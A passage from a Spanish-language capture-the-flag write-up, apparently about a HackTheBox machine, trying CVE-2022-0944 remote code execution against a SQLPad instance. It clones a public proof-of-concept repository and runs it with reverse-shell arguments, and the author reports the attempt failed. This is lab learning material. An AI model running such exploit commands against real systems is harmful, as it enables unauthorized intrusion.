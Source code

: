 Parece que no necesitamos iniciar sesión para utilizar esta instancia.
![Write-up Image](images/Screenshot_3.png)

## CVE-2022-0944 RCE (failed)
Encontramos [este PoC para explotar el CVE-2022-0944](https://github.com/shhrew/CVE-2022-0944) podemos probarlo para comprobar si la instancia de sqlpad es vulnerable.

Nos clonamos el repositorio.
```console
$ git clone https://github.com/shhrew/CVE-2022-0944
Cloning into 'CVE-2022-0944'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 11 (delta 2), reused 8 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), 4.08 KiB | 4.08 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Instalamos las dependencias.
```console
$ pip3 install -r requirements.txt
```

Nos automatiza la reverse shell pero no conseguimos nada.
```console
$ sudo python3 main.py http://sqlpad.sightless.htb:80 127.0.0.1 443                                                                       
[*] Checking for new versions of pwntools                                                                                                         
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.11/update to 'never' (old way).                             
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):                                               
        [update]                                                                                                                                  
        interval=never                                                                                                                            
```